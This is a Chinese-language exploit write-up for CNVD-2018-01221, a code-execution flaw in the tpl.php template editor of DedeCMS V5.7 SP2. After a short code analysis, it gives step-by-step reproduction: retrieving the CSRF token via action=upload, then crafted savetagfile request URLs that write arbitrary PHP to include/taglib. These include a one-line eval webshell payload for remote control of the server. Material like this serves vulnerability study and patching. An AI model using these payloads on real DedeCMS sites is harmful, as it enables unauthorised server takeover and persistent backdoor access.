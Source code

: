 ```yaml
---
title: （CNVD-2018-01221）DedeCMS V5.7 SP2存在代码执行漏洞
id: zhfly2866
---
```


# （CNVD-2018-01221）DedeCMS V5.7 SP2存在代码执行漏洞

## 一、漏洞简介

DedeCMS V5.7 SP2版本中tpl.php存在代码执行漏洞，攻击者可利用该漏洞在增加新的标签中上传木马，获取webshell

## 二、漏洞影响

## 三、复现过程

需要登录后台

根据公开的漏洞知道tpl.php里面251-281行存在代码执行漏洞，打开tpl.php文件

![image](../img/d99da34b0f5d65578e26539ef985fd9c.png)

### 代码分析

```
(1)此处定义了一个savetagfile的函数，首先做一个判断，参数“action”是否等于savetagfile，如果等于，就进行下一步
(2)csrf_chack(),这里有一个csrf检验的函数，我们需要加上token来绕过，token是登陆的令牌，当我们向服务器发送登录请求时，在客户端会生成一个用于验证的令牌。
(3)正则表达式匹配，详情参见https://www.runoob.com/regexp/regexp-rule.html*
   [a-z0-9_-]{1,}的意思是，匹配所有包含一个以上的字母数字下划线和横杠，后面的\.意思是匹配小数点
   所以最终那个判断条件的意思是如果参数filename不符合上述的匹配条件，那么就不允许修改操作的进行，所以文件名必须要.lib.php结尾。
(4)preg_replace的意思是执行一个正则表达式的搜索和替换，我们可以通过例子来分析一下,发现得到的$tagname的值为moonsec
(5)stripslashes()的作用是引用用一个引用字符串，此处没有多大的作用
(6)最后是把$content里的内容写入到相对用的路径里，问题就出在了这里，这一部分代码除了对写入的文件名字做了简单的过滤，除了有一个csrf防护之外，其他并没有什么安全措施，     
   导致我们可以任意写入代码，如果我们直接写入一句话木马，那么就可以直接连上去拿webshell了 
```

根据上面的代码知道要上传的参数有：action,token,filename,content.现在只剩下获取token了，要怎么才能获取到token呢？我们再去tpl.php里看一下，发现action的参数有很多，比如del，upoladok，edit，upload等等，但只有传入upload的时候页面才会回显正常，而其他的都会显示token异常，所以只能通过action=upload来获取token。

### 漏洞复现

获取token

```
http://0-sec.org/dede/tpl.php?action=upload 
```

![image](../img/1459432538da7212ba5139b3a25c8557.png)

然后查看网页源代码，找到token

![image](../img/3d999fc3693f2524807b2657af8a1ca9.png)

构造payload如下

```
http://0-sec.org/dede5.7/dede/tpl.php?filename=(文件名随意).lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=f1ccc319d5c897a3a362335792a21e05(替换你复制的token) 
```

访问了成功写入

![image](../img/bb4b44a582af03df930d8ed1964157fc.png)

访问写入的文件

```
http://0-sec.org/include/taglib/（你上传的文件名）.lib.php 
```

![image](../img/bb3534a0be506b2e75062f754310c031.png)

也可以构造一句话木马payload

```
http://0-sec.org/dede5.7/dede/tpl.php?filename=caidao.lib.php&action=savetagfile&content=%3C?php%20@eval($_POST[%27dylan%27])?%3E&token=2d7ef87e9828edaad2d7b6bbe37f1929 
```

![image](../img/c8635600d4a44c2f39976ff9ce6cf97d.png)